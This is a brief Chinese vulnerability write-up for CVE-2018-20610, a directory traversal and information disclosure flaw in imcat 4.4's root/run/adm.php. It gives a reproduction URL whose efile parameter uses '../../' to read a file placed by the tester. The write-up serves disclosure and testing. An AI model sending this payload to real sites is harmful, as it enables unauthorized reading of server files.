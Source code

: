 （CVE-2018-20610）Imcat 4.4 敏感信息泄露
========================================

一、漏洞简介
------------

imcat是一套基于PHP的开源建站系统。 imcat
4.4版本中的root/run/adm.php文件存在目录遍历漏洞。目前尚无此漏洞的相关信息，请随时关注CNNVD或厂商公告。

二、漏洞影响
------------

imcat 4.4

三、复现过程
------------

先在D盘创建1.txt

![](./resource/(CVE-2018-20610)Imcat4.4敏感信息泄露/media/rId24.png)

    http://www.0-sec.org/root/run/adm.php?admin-ediy&part=edit&dkey=runs&dsub=&efile=../../1.txt&dialog=1546054963116&lang=cn

![](./resource/(CVE-2018-20610)Imcat4.4敏感信息泄露/media/rId25.png)

参考链接
--------

> <https://github.com/AvaterXXX/CVEs/blob/master/imcat.md>
